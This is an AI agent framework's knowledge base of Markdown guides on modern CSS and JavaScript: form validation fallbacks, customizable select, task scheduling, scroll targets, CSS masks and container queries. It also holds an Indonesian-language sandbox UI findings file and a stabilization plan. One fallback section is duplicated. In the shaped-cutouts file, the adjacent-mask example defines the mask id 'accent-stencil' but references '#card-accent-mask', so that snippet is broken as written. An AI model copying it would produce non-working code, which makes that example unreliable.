### Fallbacks & browser support for :user-valid and :user-invalid

Baseline status for :user-valid and :user-invalid: Widely available. It's been Baseline since 2023-11-02.
Supported by: Chrome 119 (Oct 2023), Edge 119 (Nov 2023), Firefox 88 (Apr 2021), and Safari 16.5 (May 2023).

### CSS for Fallback

```css
input:user-invalid,
input.user-invalid-fallback {
  border-color: #d93025;
  background-color: #fce8e6;
}

input:user-invalid + .error-msg,
input.user-invalid-fallback + .error-msg {
  display: block;
}
```

### JavaScript Fallback

Use a reusable utility that tracks interaction state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dirtyState.delete(control);
        control.classList.remove('user-invalid-fallback');
        control.classList.remove('user-valid-fallback');
        control.removeAttribute('aria-invalid');
      }
      return;
    }

    if (!input.checkValidity) return;

    if (event.type === 'input' || event.type === 'change') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasInteracted = true;
      dirtyState.set(input, state);
      if (state.hasBlurred) {
        updateState(input);
      }
    } else if (event.type === 'blur') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasBlurred = true;
      dirtyState.set(input, state);
      if (state.hasInteracted) {
        updateState(input);
      }
    }
  };

  const init = (root = document) => {
    if (CSS.supports('selector(:user-invalid)')) return;

    root.addEventListener('blur', handleEvent, true); // Capture phase
    root.addEventListener('input', handleEvent);
    root.addEventListener('change', handleEvent);
    root.addEventListener('reset', handleEvent, true); // Capture resets
  };

  return { init };
})();

// Initialize for a specific form
const form = document.querySelector('#demo-form');
UserInvalidFallback.init(form);
```

## Other Considerations

1.  **Asterisks**: It is still best practice to indicate required fields visually (e.g., with an asterisk `*`) in the label, so users know what to expect *before* they interact.
2.  **Submit Buttons**: Unlike `disabled` buttons, keep your submit button enabled. If the user clicks it, the browser will automatically trigger `:user-invalid` on all empty required fields and focus the first one. This is excellent for accessibility and UX.
3.  **Accessibility**: Native `:user-invalid` does not automatically sync with ARIA attributes. Add the following JavaScript to keep `aria-invalid` in sync with the visual state:

```javascript
// Sync aria-invalid with the CSS :user-invalid state
const syncAria = (el) => {
  el.setAttribute?.('aria-invalid', el.matches(':user-invalid') ? 'true' : 'false');
};

// Update on blur (to show error) and input (to clear it)
document.addEventListener('blur', (e) => syncAria(e.target), true);
document.addEventListener('input', (e) => {
  if (e.target.hasAttribute('aria-invalid')) syncAria(e.target);
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_RICH-MEDIA-PICKER.MD

# Rich Media Picker (Customizable Select)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The native `<select>` element was historically difficult to style and could only contain plain text options. The `appearance: base-select` property offers a declarative, CSS-only way to opt into a customizable state for the `<select>` element. This allows developers to include rich HTML content—such as images, SVGs, and complex layouts—inside `<option>` elements, while retaining native keyboard accessibility and form integration. Use this pattern to replace heavy, custom-built select components with standard, native elements.

## How to Implement

To implement a rich media picker using the Customizable Select API:

1. **Opt-in to base styles**: Apply `appearance: base-select` to both the `<select>` element and its internal picker using the `::picker(select)` pseudo-element. This changes the browser's HTML parser for the contents inside the `<select>`.
2. **Define the Button Content**: Use standard `<button>` and `<selectedcontent>` elements inside the `<select>` to define what is shown when the picker is closed. The `<selectedcontent>` element automatically mirrors the content of the selected option. This is required if you want to display the currently selected rich content in the button.
3. **Use Rich Content inside Options**: You can now place images, SVGs, and other HTML tags inside `<option>` tags. Prior to this API, the browser would strip tags from `<option>` tags and render only plain text.
4. **Style the Popover**: Style the dropped-down options list by targeting the `::picker(select)` pseudo-element. It renders in the top layer, meaning you don't need to fight with `z-index`. Options are positioned using the Anchor Positioning API natively.

## Example Code: Rich Role Picker

```html
<label for="role-picker">Select your role</label>
<select class="custom-select" name="role" id="role-picker">
  <button>
    <selectedcontent></selectedcontent> <!-- Mirrors the selected option's content automatically so you do not need JS to update the button -->
  </button>

  <!-- Define concise aria-label values on options whose mirrored rich content would otherwise read awkwardly as a concatenated string -->
  <option value="frontend" aria-label="Frontend Developer">
    <svg aria-hidden="true" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor">
      <rect x="2" y="3" width="20" height="14" rx="2" ry="2"></rect>
    </svg>
    <div class="option-text">
      <span class="option-title">Frontend Developer</span>
      <span class="option-desc">React, Vue, CSS</span>
    </div>
  </option>

  <option value="backend" aria-label="Backend Developer">
    <svg aria-hidden="true" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor">
      <rect x="2" y="12" width="20" height="14" rx="2" ry="2"></rect>
    </svg>
    <div class="option-text">
      <span class="option-title">Backend Developer</span>
      <span class="option-desc">Node.js, Python</span>
    </div>
  </option>
</select>
```

```css
select.custom-select,
select.custom-select::picker(select) {
  appearance: base-select; /* MUST opt-in both the select and its picker to enable the customizable state, otherwise browser standard rendering applies */
}

select.custom-select {
  display: flex;
  align-items: center;
  justify-content: space-between;
  width: 100%;
  padding: 12px;
  background-color: #1e293b;
  border: 1px solid #334155;
  border-radius: 8px;
  color: #f1f5f9;
  cursor: pointer;
}

select.custom-select::picker(select) {
  background-color: #0f172a;
  border: 1px solid #334155;
  border-radius: 8px;
  padding: 8px;
  box-shadow: 0 10px 25px -5px rgba(0, 0, 0, 0.5);
  width: anchor-size(width); /* Uses Anchor Positioning API to keep the dropdown precisely aligned to the button trigger width */
}

select.custom-select option {
  display: flex;
  align-items: center;
  gap: 12px;
  padding: 10px;
  border-radius: 4px;
  cursor: pointer;
}

select.custom-select option:hover {
  background-color: #1e293b;
}

/* Remove standard OS checkmark for base-select */
select.custom-select option::before {
  display: none;
}

/* MANDATORY: Provide multiple visual indicators (e.g., prominent background color and bold title font) to communicate the checked state cleanly */
select.custom-select option:checked {
  background-color: #3b82f6;
  color: #ffffff;
}
select.custom-select option:checked .option-title {
  font-weight: 700;
}
```

## Strategic Implementation & Best Practices

- **DO** use `appearance: base-select` when you need complex options layouts (icons, descriptions, images) that was previously only possible with heavy JavaScript UI frameworks.
- **DO NOT** use ad-hoc elements if you notice performance lags; the browser handles native keyboard focus natively.
- **DO** account for top-layer rendering. The picker renders in the top-layer, meaning it overrides relative `z-index` of page content.
- **DO** hide secondary details (like descriptions) in the button state if they take too much space, by styling `.custom-select selectedcontent .option-desc { display: none; }`.
- **DO** test layout behavior. Setting `appearance: base-select` removes the default browser behavior of sizing the select based on its longest option width. You may need to set a fixed width or use flex/grid constraints to prevent layout shifts.
- **DO** ensure your `<select>` has a `name` attribute and an associated `<label>`. This ensures that even with a custom UI, the component remains accessible to screen readers and works correctly with standard form submissions.

## Fallback Strategies

### Fallbacks & browser support for Customizable <select>

Customizable <select> has limited availability.
Supported by: Chrome 135 (Apr 2025) and Edge 135 (Apr 2025).
Unsupported in: Firefox and Safari.

For browsers that do not yet support `appearance: base-select`, the `<select>` element degrades gracefully to a standard operating system dropdown.

- **Non-Text Content Ignored**: Older browsers strip HTML tags (like `<svg>` or `<div>`) inside `<option>` tags and render only the text nodes. Ensure the text content of the `<option>` is readable and meaningful on its own.
- **HTML Structure Handling**: Standard parsers may ignore the `<button>` and `<selectedcontent>` tags inside `<select>` or treat them as invalid. No heavy JavaScript polyfills are strictly required for progressive enhancement if you view standard text as a readable fallback.


```javascript
document.addEventListener("DOMContentLoaded", () => {
  // Check if browser supports base-select value
  if (!CSS.supports("appearance", "base-select")) {
    // Custom select overrides are not supported natively.
  }
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, api]

### 📘 KNOWLEDGE: NEXUS_SANDBOX_UI_FINDINGS.MD

# Sandbox UI/UX Distilled Findings
> **VERSION**: v1 | **Last Updated**: 25/05/2026


**Date**: 2026-05-23
**Context**: NEXUS Sandbox Section 1 generated 11 TALL Stack web applications, all of which failed the UX/UI quality check. The resulting applications were merely default Laravel boilerplate pages with haphazardly injected Livewire components.

## Critical Findings
1. **Broken Boilerplate**: Agen tidak menghapus halaman dokumentasi bawaan Laravel (`welcome.blade.php` dengan link ke Laracasts/Laravel News). Hal ini membuat aplikasi terlihat seperti *scaffold* awal, bukan produk akhir (MVP).
2. **Missing Application Shell**: Tidak ada satupun aplikasi yang menggunakan struktur `layouts/app.blade.php`. Akibatnya, aplikasi tidak memiliki *navbar*, *footer*, navigasi, atau kerangka UI (Shell) yang layak.
3. **Mangled HTML Injection**: Karena struktur HTML yang kacau, injeksi tag `<livewire:...>` malah merusak *tag* `<body>` dan `<div>`.

## TALL Stack UI/UX Guardrails
Untuk generasi kode selanjutnya (terutama agen `ux-engineer` dan `pipeline-architect`), **patuhi aturan ketat berikut**:

1. **Wajib Hapus Boilerplate**: Setiap kali membuat aplikasi baru, halaman bawaan `welcome.blade.php` **HARUS DIHAPUS TOTAL** isinya dan diganti dengan desain halaman depan/Dashboard yang relevan dengan aplikasi (menggunakan Tailwind CSS murni atau desain modern).
2. **Wajib Gunakan Layout**: Selalu pastikan aplikasi memiliki sebuah layout utama (contoh: `resources/views/components/layouts/app.blade.php`). Layout ini harus memiliki `<head>`, `<body>`, Navbar/Header yang berfungsi, slot utama (`{{ $slot }}`), dan footer.
3. **Routing yang Layak**: Halaman utama (`/`) tidak boleh sekadar me-*render* komponen acak. Halaman utama harus berupa `Dashboard` atau `Landing Page` yang memiliki tautan menuju fitur-fitur lainnya.
4. **Desain Elegan & Premium**: Gunakan komponen modern dari skill `modern-web-guidance`. Jangan biarkan halaman berwarna putih polos dengan sebuah form di tengah layar tanpa styling padding/margin yang proporsional. Gunakan Glassmorphism, animasi mikro, dan skema warna (*color palette*) yang harmoni.

*Catatan: Kesalahan teknis di sisi Engine (auto-wiring yang merusak tag HTML) telah diselesaikan secara fisik di `ExecutionPhase.js`.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_SCHEDULE-TASKS-BY-PRIORITY.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

When building complex web applications, tasks have different levels of urgency. Completing tasks for the current view is more important than sending analytics or prefetching assets. The Prioritized Task Scheduling API allows you to schedule work with specific priorities, ensuring the browser remains responsive to user input.

### Scheduling tasks by priority

Use `scheduler.postTask()` to schedule tasks with one of three priorities:
- `user-blocking`: Tasks that block user interaction (e.g., input handling, critical rendering).
- `user-visible`: Tasks visible to the user but not blocking (default).
- `background`: Tasks that are not time-critical (e.g., analytics, prefetching).

```javascript
// Schedule a high-priority task that blocks user interaction
scheduler.postTask(() => {
  // DO: Handle critical updates that impact user interaction
  handleCriticalUpdate();
}, { priority: 'user-blocking' });

// Schedule a default priority task
scheduler.postTask(() => {
  // DO: Render non-critical content that is visible to the user
  renderSecondaryContent();
}); // Defaults to 'user-visible'

// Schedule a low-priority background task
scheduler.postTask(() => {
  // DO: Perform heavy background work that is not time-critical
  sendAnalytics();
}, { priority: 'background' });
```

### Fallback strategies

Scheduler API has limited availability.
Supported by: Chrome 129 (Sep 2024), Edge 129 (Sep 2024), and Firefox 142 (Aug 2025).
Unsupported in: Safari.

To support browsers that do not have the Prioritized Task Scheduling API, you must use a polyfill to maintain task prioritization.

```javascript
// Feature detect the scheduler API
if (!('scheduler' in window && 'postTask' in window.scheduler)) {
  // DO: Conditionally load the polyfill for browsers that need it
  const script = document.createElement('script');
  script.src = 'https://unpkg.com/scheduler-polyfill';
  script.onload = () => {
    // Polyfill is loaded and ready to use
    runScheduledTasks();
  };
  document.head.appendChild(script);
} else {
  runScheduledTasks();
}

function runScheduledTasks() {
  // Now safe to use scheduler.postTask in all browsers
  scheduler.postTask(() => {
    console.log('Task with priority support');
  }, { priority: 'background' });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_SCROLL-TARGET-ON-LOAD.MD

# Set a scroll target for the initial render
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The CSS property `scroll-initial-target` offers a declarative, CSS-only way to bring a specific descendant element into the visible area of its scroll container as soon as that container is rendered. Previously, developers relied on JavaScript (`Element.scrollIntoView()`) or URL fragment identifiers (`#item-id`), both of which have limitations and are tricky to implement.

## How to Implement

To implement this successfully:

1. **Ensure a scroll container:** The target element must be inside a scroll container (an element with overflow that allows scrolling, such as `overflow: auto`). This can be any ancestor element, including the root `<html>` element.
2. **Target the Item:** Apply `scroll-initial-target: nearest` to the specific descendant element you want to bring into view.

## Example Code: Vertical Media Feed

In this example, a feed starts scrolled to a specific "featured" item rather than the very top of the list.

```css
/** 
 * TARGET: The item that should be visible on initial load.
 */
.item.target {
  scroll-initial-target: nearest;
}
```

## Strategic Implementation & Best Practices

- **DO** use `scroll-initial-target` for "middle-start" experiences, such as a calendar starting on the current day or a gallery starting on a specific image.
- **DO NOT** confuse this with accessibility focus. This property only moves the **visual** viewport; it does not move the keyboard focus. You must manually manage `element.focus()` if the target is intended to be the starting point for keyboard users.
- **DO NOT** use this if you need a smooth "scrolling" animation on load; this property is discrete and sets the position instantly during the layout phase.
- **DO NOT** set `scroll-initial-target` on multiple elements within the same scrollable container. If multiple elements specify `scroll-initial-target: nearest`, the browser selects the one that appears first in the DOM tree order.
- **DO** provide dimensions for media. Since the scroll position is calculated during initial layout, ensure images or videos have `aspect-ratio` or fixed `height`/`width` to prevent the target from shifting after the media loads.
- **DO** account for the **Precedence Hierarchy**: A URL fragment (e.g., `example.com/#top`) and the container-level `scroll-start` property both take precedence over `scroll-initial-target`.

## Fallback Strategy

scroll-initial-target has limited availability.
Supported by: Chrome 133 (Feb 2025) and Edge 133 (Feb 2025).
Unsupported in: Firefox and Safari.

For browsers that do not yet support the API, use a JavaScript fallback. Use the `DOMContentLoaded` event to ensure the browser scrolls the element into view as soon as the HTML parsing completes, providing a faster experience than waiting for all images and resources to load. Alternatively, placing the script at the end of the `<body>` element is also acceptable and avoids the need for an event listener.

```javascript
/**
 * Progressive Enhancement Fallback
 */
document.addEventListener("DOMContentLoaded", () => {
  // Check for native CSS support
  if (!CSS.supports("scroll-initial-target", "nearest")) {
    const feedTarget = document.querySelector(".item.target");
    if (feedTarget) {
      // 'block: center' ensures the featured media is centered in view
      feedTarget.scrollIntoView({ behavior: "instant", block: "center" });
    }
  }
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_SELECT-MENU-INTERACTION.MD

# Select Menu Interaction
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem
For mandatory dropdowns (e.g., "Choose a Country"), standard validation flags the field as invalid immediately if the default option has an empty value. This can create visual noise. We want to show the error only if the user opens the menu and closes it without choosing an option, or attempts to submit the form.

## The Solution
The `:user-invalid` pseudo-class works seamlessly with `<select>` elements. It respects the user's interaction flow: simply loading the page or focusing/blurring without making a change doesn't count as an interaction, so the field stays neutral until they actively attempt a selection.

### Implementation Strategy

1.  **HTML Constraint**: Use a `<select>` with `required`. The first option should have `value=""` and ideally be disabled/hidden to force a valid choice.
2.  **Visual Feedback**: Use `:user-invalid` to style the select box border.
3.  **Timing**: The browser considers the field "interacted" if the user changes the value (even back to the default invalid state) before they blur the control, or upon form submission.

## Implementation Guide

### 1. HTML Structure
The "placeholder" option is key here.

```html
<form>
  <div class="field">
    <label for="country">Country</label>
    <select
      id="country"
      name="country"
      required
      aria-errormessage="country-error"
    >
      <option value="" disabled selected>Select a country...</option>
      <option value="us">United States</option>
      <option value="ca">Canada</option>
      <option value="uk">United Kingdom</option>
    </select>
    <div id="country-error" class="error-msg">
      Please select a country.
    </div>
  </div>
</form>
```

### 2. CSS
```css
.error-msg {
  display: none;
  color: #d93025;
  font-size: 0.875rem;
  margin-top: 0.25rem;
}

/*
  Only show error after the user visits the select menu.
*/
select:user-invalid {
  border-color: #d93025;
  background-color: #fce8e6;
}

select:user-invalid + .error-msg {
  display: block;
}

select:user-valid {
  border-color: #188038;
}
```

## Fallbacking & Browser Support

The `:user-invalid` pseudo-class is widely supported (Baseline 2023), but if you need to support older browsers, you must ensure consistency of the implementation.

### Fallbacks & browser support for :user-valid and :user-invalid

Baseline status for :user-valid and :user-invalid: Widely available. It's been Baseline since 2023-11-02.
Supported by: Chrome 119 (Oct 2023), Edge 119 (Nov 2023), Firefox 88 (Apr 2021), and Safari 16.5 (May 2023).

### CSS for Fallback

```css
input:user-invalid,
input.user-invalid-fallback {
  border-color: #d93025;
  background-color: #fce8e6;
}

input:user-invalid + .error-msg,
input.user-invalid-fallback + .error-msg {
  display: block;
}
```

### JavaScript Fallback

Use a reusable utility that tracks interaction state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dirtyState.delete(control);
        control.classList.remove('user-invalid-fallback');
        control.classList.remove('user-valid-fallback');
        control.removeAttribute('aria-invalid');
      }
      return;
    }

    if (!input.checkValidity) return;

    if (event.type === 'input' || event.type === 'change') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasInteracted = true;
      dirtyState.set(input, state);
      if (state.hasBlurred) {
        updateState(input);
      }
    } else if (event.type === 'blur') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasBlurred = true;
      dirtyState.set(input, state);
      if (state.hasInteracted) {
        updateState(input);
      }
    }
  };

  const init = (root = document) => {
    if (CSS.supports('selector(:user-invalid)')) return;

    root.addEventListener('blur', handleEvent, true); // Capture phase
    root.addEventListener('input', handleEvent);
    root.addEventListener('change', handleEvent);
    root.addEventListener('reset', handleEvent, true); // Capture resets
  };

  return { init };
})();

// Initialize for a specific form
const form = document.querySelector('#demo-form');
UserInvalidFallback.init(form);
```

## Other Considerations

1.  **Mobile behavior**: On mobile devices, "blur" might happen differently depending on the OS picker. Testing on actual devices is recommended.
2.  **Accessibility**: Native `:user-invalid` does not automatically sync with ARIA attributes. Add the following JavaScript to keep `aria-invalid` in sync with the visual state:

```javascript
// Sync aria-invalid with the CSS :user-invalid state
const syncAria = (el) => {
  el.setAttribute?.('aria-invalid', el.matches(':user-invalid') ? 'true' : 'false');
};

// Update on blur (to show error) and input (to clear it)
document.addEventListener('blur', (e) => syncAria(e.target), true);
document.addEventListener('input', (e) => {
  if (e.target.hasAttribute('aria-invalid')) syncAria(e.target);
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_SHAPED-CUTOUTS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Overview
CSS Masking allows you to clip an element to a custom shape, such as adding a notch to a card or creating a shaped border. When combining shapes for complex layouts, choose your masking strategy based on the type of content the element contains:

| Masking strategy                | Best For                        | Text Impact                    |
| ------------------------------- | ------------------------------- | ------------------------------ |
| Direct Element SVG Masking      | Images, Icons, Decorative shapes, Complex shapes | Not recommended (can crop text) |
| Adjacent Element SVG Masking    | Cards with Text, Crucial content | Text remains fully readable    |
| Pure CSS Gradients              | Simple Geometric Shapes           | Not recommended (can crop text) |

---

## Implementation
To implement shaped cutouts:

### Using an SVG Mask
SVG masks allow you to define shapes that subtract from or add to the visible area using white (reveal) and black (hide) fills.

> **Luminance vs. Alpha Masking**: SVG masks default to **luminance** (brightness) mode, which is why we use `fill="white"` to reveal areas and `fill="black"` to cut them out. If you prefer to use the SVG's transparency (alpha channel) instead of colors, you can set `mask-type: alpha;` in CSS or `mask-type="alpha"` on the SVG `<mask>` element.

#### Direct Element SVG Masking
When there is no text inside the element to worry about (such as profile avatars, product images, or illustrations), you can apply the SVG mask directly to the element.

Using `maskContentUnits="objectBoundingBox"` inside the SVG mask ensures that the mask scales automatically to the width and height of any element it is applied to.

```html
<!-- 1. Define the mask in SVG (hidden from view) -->
<svg width="0" height="0" style="position: absolute;" aria-hidden="true">
  <defs>
    <!-- objectBoundingBox makes the mask scale from 0 to 1 along the element's borders -->
    <mask id="splat-mask" maskContentUnits="objectBoundingBox">
      <!-- Organic Bezier path defining an artistic paint splat shape -->
      <path d="M 0.5 0.05 C 0.58 0.05, 0.58 0.21, 0.67 0.18 C 0.76 0.15, 0.79 0.08, 0.85 0.15 C 0.91 0.22, 0.83 0.32, 0.89 0.38 C 0.95 0.44, 1.03 0.45, 0.99 0.55 C 0.95 0.65, 0.82 0.62, 0.8 0.72 C 0.78 0.82, 0.89 0.92, 0.8 0.97 C 0.71 1.02, 0.64 0.88, 0.55 0.93 C 0.46 0.98, 0.44 1.06, 0.35 1.01 C 0.26 0.96, 0.31 0.81, 0.22 0.79 C 0.13 0.77, 0.01 0.88, 0.01 0.77 C 0.01 0.66, 0.16 0.62, 0.14 0.52 C 0.12 0.42, -0.02 0.39, 0.03 0.29 C 0.08 0.19, 0.23 0.27, 0.29 0.19 C 0.35 0.11, 0.3 0.01, 0.4 0.01 C 0.5 0.01, 0.42 0.05, 0.5 0.05 Z" fill="white" />
    </mask>
  </defs>
</svg>

<!-- 2. Apply the mask to the image element -->


<style>
.shaped-avatar {
  width: 200px;
  height: 200px;
  object-fit: cover;
  
  /* Apply the SVG mask ID with standard and webkit-prefixed properties */
  -webkit-mask-image: url(#splat-mask);
  mask-image: url(#splat-mask);
}
</style>
```

#### Adjacent Element SVG Masking
Apply the mask to an adjacent element rather than the parent element containing text. This ensures that text doesn't get clipped and remains readable.

To solve this, structure your component into a two-part layout:
1. A **safe, unmasked text container** (`.card-body`) for all readable content.
2. An **empty decorative `div`** (`.card-accent`) placed next to it, which receives the custom SVG mask.

By assigning both parts the same background color, they visually merge into a single, custom-shaped component.

```html
<!-- 1. Define the SVG mask (hidden from view) -->
<svg width="0" height="0" style="position: absolute;" aria-hidden="true">
  <defs>
    <!-- Use objectBoundingBox to make the mask scale with the element -->
    <mask id="accent-stencil" maskContentUnits="objectBoundingBox">
      <!-- Fill the entire area with white (fully visible) -->
      <rect width="1" height="1" fill="white" />
      <!-- Draw a black shape to cut out a concave curve. Extending the path to x=1.1 guarantees it fully clears the right edge, preventing subpixel lines -->
      <path d="M 1.1,0 C 0.4,0.1 0.4,0.9 1.1,1 L 1.1,0 Z" fill="black" />
    </mask>
  </defs>
</svg>

<!-- 2. Create the unified card layout -->
<div class="unified-card">
  <!-- The text-bearing element remains unmasked and perfectly rectangular -->
  <div class="card-body">
    <h3>Premium Membership</h3>
    <p>Get exclusive weekly updates on modern web standards and premium UI designs.</p>
  </div>
  <!-- The empty accent element next to it is masked to form the custom shape -->
  <div class="card-accent"></div>
</div>

<style>
.unified-card {
  display: flex;
  width: 400px;
}

.card-body {
  flex: 1;
  background-color: #1e293b; /* Elegant slate color */
  color: #f8fafc;
  padding: 24px;
  border-top-left-radius: 16px;
  border-bottom-left-radius: 16px;
}

.card-accent {
  width: 60px;
  background-color: #1e293b; /* Same background color so they merge visually without seams */
  border-top-right-radius: 16px;
  border-bottom-right-radius: 16px;

  /* Reference the SVG mask */
  -webkit-mask-image: url(#card-accent-mask);
  mask-image: url(#card-accent-mask);
}
</style>
```

### Using a Single CSS Gradient for Simple Cutouts
When you only need simple geometric cutouts (such as a semi-circular top notch, side indentations, or straight diagonal cuts), you do not need to write or reference an external SVG. Instead, you can define a CSS radial or linear gradient directly inside the `mask-image` property.

```html
<div class="gradient-masked-card">
  <h3>Notched Coupon Card</h3>
  <p>This card uses a pure CSS radial gradient to cut out a semi-circular notch along its top edge.</p>
</div>

<style>
.gradient-masked-card {
  background: linear-gradient(135deg, #3b82f6, #1d4ed8);
  color: white;
  padding: 40px 24px 24px 24px; /* Extra top padding ensures content clears the notch */
  border-radius: 16px;
  text-align: center;

  /* radial-gradient places a circle at 50% (horizontal center) and 0% (top edge), cutting out a 20px transparent notch */
  -webkit-mask-image: radial-gradient(circle at 50% 0%, transparent 20px, black 21px);
  mask-image: radial-gradient(circle at 50% 0%, transparent 20px, black 21px);
}
</style>
```

## Fallback strategies
Baseline status for Masks: Newly available. It's been Baseline since 2023-12-07.
Supported by: Chrome 120 (Dec 2023), Edge 120 (Dec 2023), Firefox 53 (Apr 2017), and Safari 15.4 (Mar 2022).

If a browser does not support `mask-image` or the prefixed version:
- **For Shaped Images**: The element will degrade gracefully, displaying as a normal rectangular element with its default fallback styles.
- **For Shaped Cards**: The adjacent decorative `.card-accent` element will remain a solid, unmasked rectangle. Since it shares the same background color as the text container, the entire card will simply render as a standard, clean rectangular container.
- **Progressive Enhancement**: By keeping text layers outside the mask entirely, your content is guaranteed to remain completely readable, structured, and accessible on older browsers.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_SIZE-AWARE-STYLING.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Overview

Size-aware styling allows components to change their layout or appearance based on the space available to them, rather than the size of the whole screen. This is useful for components like cards or navigation bars that might be placed in different parts of a layout (like a narrow sidebar or a wide main area).

Using container queries is recommended because it makes components truly modular. You do not need to know where the component will live or write complex media queries to handle every possible layout.

## Implementation

### 1. Define the container

MANDATORY: You must first tell the browser which element is the container to be measured.

```css
.card-container {
  /* Define the container type. Use 'inline-size' for width-based queries. */
  /* You can also use 'size' for both width and height, but it requires explicit sizing. */
  container-type: inline-size;
}
```

### 2. Apply styles based on container size

Use the `@container` rule to apply styles when the container reaches a certain size.

```css
/* Default styles for small containers (stacked layout) */
.card {
  display: flex;
  flex-direction: column;
  gap: 1rem;
}

/* Styles for larger containers (side-by-side layout) */
/* This triggers when the container is wider than 400px */
@container (min-width: 400px) {
  .card {
    flex-direction: row;
    align-items: center;
  }
  
  .card-image {
    width: 150px;
    height: 150px;
  }
}
```

### 3. Conditionally show content

You can also use container queries to hide or show extra details when there is more room.

```css
.card-details {
  /* Hide extra details by default in small spaces */
  display: none;
}

@container (min-width: 600px) {
  .card-details {
    /* Show details when there is plenty of room */
    display: block;
  }
}
```

### Fallback strategies

Baseline status for Container queries: Widely available. It's been Baseline since 2023-02-14.
Supported by: Chrome 105 (Sep 2022), Edge 105 (Sep 2022), Firefox 110 (Feb 2023), and Safari 16 (Sep 2022).

For browsers that do not support container queries, the best approach is to use a safe default layout (like the stacked vertical layout) and progressively enhance it using media queries if the general screen size allows it.

```css
/* Default safe stacked layout */
.card {
  display: flex;
  flex-direction: column;
}

/* Fallback using media queries for older browsers */
@media (min-width: 600px) {
  .card {
    flex-direction: row;
  }
}

/* Overwrite with container queries where supported */
@supports (container-type: inline-size) {
  @media (min-width: 600px) {
    .card {
      /* Reset media query fallback if needed, or let container query handle it */
      flex-direction: column;
    }
  }
  
  @container (min-width: 400px) {
    .card {
      flex-direction: row;
    }
  }
}
```

This ensures that users on older browsers still get a usable layout, even if it does not adapt perfectly to every specific container width.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_STABILIZATION_PLAN.MD

# Implementation Plan: Nexus Core Stabilization & Hygiene
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This plan addresses the critical bugs, architectural redundancies, and repository hygiene issues identified during the system audit.

## 🛠 Phase 1: Core Engine Refactoring (NexusEngine.js)
**Goal**: Eliminate duplicate methods, fix undefined variables, and clean up constructor logic.

### Tasks:
- [x] **Fix Constructor Redundancy**:
    - Consolidate path assignments for `knowledgePath`, `recordsPath`, `summaryPath`, and `planningPath`.
    - Ensure `resolvePath()` is used consistently.
- [x] **Resolve `this.nexusPath` Bug**:
    - Map `this.nexusPath` to `this.nexusDataPath` or fix the reference to use the correct variable.
- [x] **Deduplicate Methods**:
    - Remove the second definition of `getSemanticTags()` (lines 956-963).
    - Remove the second definition of `globRecursive()` (lines 978-986).
    - Ensure the remaining implementations are robust (handle absolute paths and different OS environments).

## 📂 Phase 2: Repository Hygiene & Git Configuration
**Goal**: Prevent runtime artifacts and temporary scripts from cluttering the repository.

### Tasks:
- [x] **Update `.gitignore`**:
    - Add `scratch/` folder.
    - Add session history archives: `knowledge/*_SESSION_HISTORY_ARCHIVE.md`.
    - Add performance artifacts: `memory/distilled/performance/*.MD`.
    - Add log files: `logs/*.log`.
- [x] **Cleanup Command**: (Optional) Provide a script to purge existing untracked artifacts.

## 🏗 Phase 3: Workflow Consolidation
**Goal**: Establish a single "Source of Truth" for agent workflows to simplify maintenance.

### Tasks:
- [x] **Identify Primary Source**: Set `agent/workflows/` as the master directory.
- [x] **Merge Contents**: Ensure all unique workflows from `workflow/` and `NEXUS_PUBLIC_DISTRIBUTION/agent/workflows/` are migrated to the master.
- [x] **Redundancy Removal**: Propose removing the redundant directories or replacing them with a distribution build script.

## 🧪 Phase 4: Test Coverage Expansion
**Goal**: Increase stability by adding tests for missing core components.

### Tasks:
- [x] **Create Test Scaffolds**:
    - `MemoryGovernor.test.js`
    - `Orchestrator.test.js`
    - `Machinist.test.js`
- [x] **Integrate with CI/CD**: Ensure new tests are included in the `npm test` suite.

---
**Status**: ✅ Finished
**Completion Date**: 2026-05-10
**Lead Agent**: Antigravity


---
